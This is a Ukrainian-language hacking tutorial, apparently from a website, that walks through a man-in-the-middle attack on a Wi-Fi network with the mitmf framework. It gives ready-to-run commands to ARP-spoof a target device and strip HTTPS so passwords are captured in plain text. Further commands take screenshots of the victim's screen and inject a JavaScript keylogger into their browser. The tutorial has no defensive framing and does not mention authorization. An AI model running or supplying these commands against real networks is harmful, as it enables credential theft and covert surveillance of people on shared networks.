


Тут ми поговоримо про базове тестування злому та проникнення. Ти можеш
виберіть один із типів хаків нижче.
Перегляд Wi-Fi за допомогою атак MiTM
Вам знадобиться kali linux або будь-який інший дистрибутив Linux зі спеціальними
інструментами
встановлено. Для kali linux натисніть
посилання нижче. Вам також знадобиться адаптер WiFi, сумісний з kali-linux, для режиму монітора та
перехоплення/введення пакетів.
Як встановити пакунки
Відкрийте вікно терміналу та встановіть пакет, якщо його не встановлено.
Тут ми будемо використовувати mitmf (людина в середній структурі) для підробки пристроїв.
Якщо ви використовуєте Debian або дистрибутив на основі Debian,
тип:
apt update && apt install mitmf
Якщо ви користуєтеся Arch Linux (ви чудові), тоді використовуйте pacman для встановлення інструментів.
pacman -S mitmf
ПРИМІТКА. Ви вже повинні мати доступ до мережі WiFi. Якщо
ви хочете знати, як отримати доступ, перегляньте сторінку злому WiFi на цьому сайті.
Тепер, як працює цей вид атаки, зловмисник обманює користувача, надсилаючи повідомлення
що він є маршрутизатором, і підмінює маршрутизатор, що він є цим користувачем.
Наприклад, візьмемо IP-адресу маршрутизатора 192.168.1.1, користувача – 192.168.1.3, а зловмисника
є 192.168.1.5.
Зловмисник повідомляє маршрутизатору, що він 192.168.1.3, а користувачеві, що він 192.168.1.1. Так що
тепер,
трафік користувача проходить через комп'ютер зловмисника. Так він може аналізувати трафік, вводити
код на
веб-переглядач користувача та робити багато цікавих речей.


Ми будемо використовувати структуру під назвою mitmf.
Якщо припустити, що наведені вище IP-адреси є правильними [будь ласка, змініть їх у вашому випадку], я
збираюся використовувати
цей інструмент.
Щоб підробити користувача та маршрутизатор, введіть: mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.3 -i wlan0
Де «wlan0» — бездротовий інтерфейс, підключений до зазначеної мережі.
Після виконання команди спрацьовує ARP [протокол розпізнавання адрес], який
в основному стає MiTM.
Але використання mitmf має додаткові переваги для новачків. Він має SSLstrip увімкнено за замовчуванням,
що
перетворює будь-який
HTTPS-сайт на HTTP-сайт, де дані надсилаються у вигляді звичайного тексту, щоб ми могли нюхати паролі та
облікові дані.
Тепер, коли користувач відвідує будь-який сайт, вводить будь-які паролі, це буде відображатися на вашому
терміналі
екран.
Тепер ми спробуємо зробити скріншоти та запустити кейлоггер у цільовій системі.
Для знімка екрана введіть команду нижче: mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.3 -i wlan0 --screen
Тепер, якщо ви використовуєте Kali Linux, зображення зберігатимуться в /var/log/mitmf
Тепер про кейлоггер,
Нам доведеться вставити JS-код, який фіксуватиме натискання клавіш користувача.
Отже, введіть: mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.3 -i wlan0 --jskeylogger